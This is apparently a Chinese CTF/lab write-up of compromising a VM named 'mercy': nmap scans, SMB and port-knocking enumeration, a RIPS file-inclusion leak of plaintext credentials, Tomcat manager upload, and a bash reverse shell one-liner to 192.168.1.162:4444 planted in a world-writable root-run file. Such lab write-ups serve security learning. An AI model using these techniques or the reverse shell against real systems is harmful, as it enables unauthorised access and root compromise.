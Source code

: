 
## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 192.168.1.168
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-31 14:52 CST
Nmap scan report for 192.168.1.168
Host is up (0.12s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE SERVICE
53/tcp   open  domain
110/tcp  open  pop3
139/tcp  open  netbios-ssn
143/tcp  open  imap
445/tcp  open  microsoft-ds
993/tcp  open  imaps
995/tcp  open  pop3s
8080/tcp open  http-proxy
MAC Address: 08:00:27:88:9D:EF (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds

┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p53,110,139,143,448,993,995,8080 192.168.1.168
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-31 14:53 CST
Nmap scan report for 192.168.1.168
Host is up (0.0012s latency).

PORT     STATE  SERVICE     VERSION
53/tcp   open   domain      ISC BIND 9.9.5-3ubuntu0.17 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.9.5-3ubuntu0.17-Ubuntu
110/tcp  open   pop3
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: SASL CAPA STLS PIPELINING AUTH-RESP-CODE UIDL RESP-CODES TOP
| fingerprint-strings:
|   NotesRPC:
|_    +OK Dovecot (Ubuntu) ready.
139/tcp  open   netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
143/tcp  open   imap        Dovecot imapd
|_imap-capabilities: LOGIN-REFERRALS IDLE LOGINDISABLEDA0001 more have ID OK listed capabilities ENABLE LITERAL+ SASL-IR STARTTLS post-login Pre-login IMAP4rev1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
993/tcp  open   ssl/imap    Dovecot imapd
|_imap-capabilities: LOGIN-REFERRALS IDLE AUTH=PLAINA0001 more ID have OK listed ENABLE LITERAL+ capabilities IMAP4rev1 post-login Pre-login SASL-IR
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
995/tcp  open   ssl/pop3
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings:
|   TerminalServer:
|_    +OK Dovecot (Ubuntu) ready.
|_pop3-capabilities: USER CAPA SASL(PLAIN) PIPELINING AUTH-RESP-CODE UIDL RESP-CODES TOP
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
8080/tcp open   http        Apache Tomcat/Coyote JSP engine 1.1
| http-robots.txt: 1 disallowed entry
|_/tryharder/tryharder
|_http-server-header: Apache-Coyote/1.1
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port110-TCP:V=7.94SVN%I=7%D=3/31%Time=660908D9%P=x86_64-pc-linux-gnu%r(
SF:NotesRPC,1D,"\+OK\x20Dovecot\x20\(Ubuntu\)\x20ready\.\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port995-TCP:V=7.94SVN%T=SSL%I=7%D=3/31%Time=660908D6%P=x86_64-pc-linux-
SF:gnu%r(TerminalServer,1D,"\+OK\x20Dovecot\x20\(Ubuntu\)\x20ready\.\r\n");
MAC Address: 08:00:27:88:9D:EF (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/31%OT=53%CT=448%CU=32648%PV=Y%DS=1%DC=D%G=Y%M=080
OS:027%TM=660908FB%P=x86_64-pc-linux-gnu)SEQ(II=I)ECN(R=N)T1(R=N)T2(R=N)T3(
OS:R=N)T4(R=N)T5(R=N)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID
OS:=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: Host: MERCY; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: mercy
|   NetBIOS computer name: MERCY\x00
|   Domain name: \x00
|   FQDN: mercy
|_  System time: 2024-03-31T14:55:36+08:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-03-31T06:55:36
|_  start_date: N/A
|_clock-skew: mean: -2h40m02s, deviation: 4h37m07s, median: -2s
|_nbstat: NetBIOS name: MERCY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 167.39 seconds
```


## smb信息收集+knock敲门

![](images/2024-04-01-13-34-53.png)
8080默认界面
![](images/2024-04-01-14-26-14.png)
有个要登陆的manage页面
访问/tryharder/tryharder
![](images/2024-03-31-14-59-15.png)
现在得到一个密码password了

tomcat有一个put传马的历史漏洞
利用一下失败了啊
好像要有cookie
那先去找一下能不能利用上面的密码登录进去
![](images/2024-03-31-15-10-17.png)
找到一个manager目录
果然是一个表单登录的页面
这个时候我没有任何员工的信息，只知道密码
那试下hydra爆破用户名把
没爆破出来

![](images/2024-04-01-09-55-51.png)
smb用qiu用户，密码是password
能够连上，那就把东西都拿下来
![](images/2024-04-01-10-09-54.png)
要按顺序去敲开ssh
![](images/2024-04-01-10-14-26.png)
成功敲开了
把http也敲开

## web渗透
然后就访问80端口吧
![](images/2024-04-01-13-01-39.png)
找到robots目录
访问这两个目录
![](images/2024-04-01-13-36-39.png)
一眼没什么信息
访问另一个
![](images/2024-04-01-13-37-17.png)
看到一个rips的页面
先搜一下历史漏洞了咯
![](images/2024-04-01-13-38-02.png)
就是这个，文件包含，那直接去利用了
![](images/2024-04-01-13-39-01.png)
这里想去上传文件，然后去包含
但是这是失败的，没有给上传的功能点
smb也没有权限

于是转而去收集是否有敏感文件能够去包含
![](images/2024-04-01-13-41-00.png)
看到一开始的8080端口页面
其中就有一个admin的管理文件吧
包含一下看看
![](images/2024-04-01-13-44-14.png)
得到用户密码了
thisisasuperduperlonguser/heartbreakisinevitable
fluffy/freakishfluffybunny

试下ssh连吧
![](images/2024-04-01-13-45-55.png)
这里好像只能用公钥加密钥的组合去连接

那还有一个地方有登录，manage
看到第一个用户的roles就是admin
那直接登
![](images/2024-04-01-14-27-29.png)

一个很明显的tomcat历史漏洞
![](images/2024-04-01-14-30-58.png)
上传就行
![](images/2024-04-01-14-43-44.png)
反弹shell
## 提权

![](images/2024-04-01-14-43-27.png)
su一下qiu用户
翻一下它家目录其实没有什么东西
翻一下fluffy用户的
结果这家伙家目录下有个777权限的文件
![](images/2024-04-01-15-05-53.png)
把反弹shell塞进去
bash -c 'bash -i >& /dev/tcp/192.168.1.162/4444 0>&1'
等一会rootshell就来了
虽然我不知道这个shell是通过什么方式来的，没有计划任务啊这
![](images/2024-04-01-15-01-26.png)